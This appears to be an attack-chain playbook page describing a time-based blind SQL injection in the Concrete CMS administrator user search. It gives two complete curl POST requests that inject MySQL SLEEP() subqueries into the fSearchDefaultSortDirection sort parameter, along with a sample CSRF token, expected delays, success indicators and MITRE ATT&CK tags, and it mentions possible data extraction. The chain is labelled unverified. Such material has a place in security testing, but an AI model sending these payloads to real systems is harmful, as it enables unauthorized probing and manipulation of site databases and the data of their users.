

# Time-based SQL Injection in Concrete CMS User Search for Delay Confirmation and Potential Data Manipulation

Multi-stage attack chain demonstrating exploitation of a SQL injection vulnerability in Concrete CMS to induce server delays and confirm injection, enabling potential database manipulation by authenticated administrators.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~1 minute |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser or HTTP client like curl

### Target Environment

- Concrete CMS installation (version vulnerable to CVE or similar)
- MySQL backend
- Web server with PHP

### Initial Access Requirements

- Authenticated administrator credentials
- Valid CSRF token from the session
- Network access to the /index.php/dashboard/users/search endpoint

## Detailed Attack Procedures

### Step 1: Authenticate and Prepare Search Request

procedure: [[procedures/Exploit-Time-based-SQL-Injection-in-Concrete-CMS-User-Search]]

**Objective**: Gain admin access and set up the user search interface to inject payloads into the fSearchDefaultSortDirection parameter.

**Instructions**: Log in as an administrator to the Concrete CMS dashboard. Navigate to the users search functionality at /index.php/dashboard/users/search. Obtain a valid CSRF token (ccm_token) from the session. Prepare the POST request body with search parameters, focusing on the vulnerable fSearchDefaultSortDirection field.

**Expected Output**: Successful login and access to the search endpoint with a valid token.

**Success Indicators**:
- Admin dashboard accessible
- CSRF token captured (e.g., 1589765824:07f645727d279188e2ce2c91835ab0dd)

### Step 2: Inject Payloads and Confirm Delays

procedure: [[procedures/Exploit-Time-based-SQL-Injection-in-Concrete-CMS-User-Search]]

**Objective**: Inject time-based SQL payloads using MySQL SLEEP() to cause measurable server delays, confirming the injection point without data exfiltration.

**Instructions**: Use [[commands/inject-sleep-20-sql-payload-in-concrete-cms]] to send a 20-second sleep payload:

```bash
curl -X POST "http://target/concrete5/index.php/ccm/system/dialogs/user/advanced_search/submit?ccm_token=1589765824:07f645727d279188e2ce2c91835ab0dd" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "field%5B%5D=keywords&keywords=admin&field%5B%5D=is_active&active=0&u.uName=1&u.uEmail=1&u.uDateAdded=1&u.uStatus=1&u.uNumLogins=1&column%5B%5D=u.uName&column%5B%5D=u.uEmail&column%5B%5D=u.uDateAdded&column%5B%5D=uStatus&column%5B%5D=u.uNumLogins&fSearchDefaultSort=u.uDateAdded&fSearchDefaultSortDirection=desc%2c(select*from(select(sleep(20)))a)&fSearchItemsPerPage=10&__ccm_consider_request_as_xhr=1"
```

Observe the response time. Then, escalate confirmation with [[commands/inject-sleep-30-sql-payload-in-concrete-cms]] for a 30-second delay:

```bash
curl -X POST "http://target/concrete5/index.php/ccm/system/dialogs/user/advanced_search/submit?ccm_token=1589765824:07f645727d279188e2ce2c91835ab0dd" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "field%5B%5D=keywords&keywords=admin&field%5B%5D=is_active&active=0&u.uName=1&u.uEmail=1&u.uDateAdded=1&u.uStatus=1&u.uNumLogins=1&column%5B%5D=u.uName&column%5B%5D=u.uEmail&column%5B%5D=u.uDateAdded&column%5B%5D=uStatus&column%5B%5D=u.uNumLogins&fSearchDefaultSort=u.uDateAdded&fSearchDefaultSortDirection=desc%2c(select*from(select(sleep(30)))a)&fSearchItemsPerPage=10&__ccm_consider_request_as_xhr=1"
```

**Expected Output**: Server response delayed by exactly 20 or 30 seconds, respectively, with JSON response containing search results but no errors.

**Success Indicators**:
- Response time matches sleep duration (e.g., +20s or +30s)
- No SQL errors; payload executes silently

## Attack Chain Summary

### Key Achievements

1. Confirmed time-based blind SQL injection in ORDER BY clause via SLEEP() subqueries
2. Demonstrated potential for authenticated admins to alter database logic or extract data
3. Highlighted insufficient input sanitization in fSearchDefaultSortDirection parameter

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
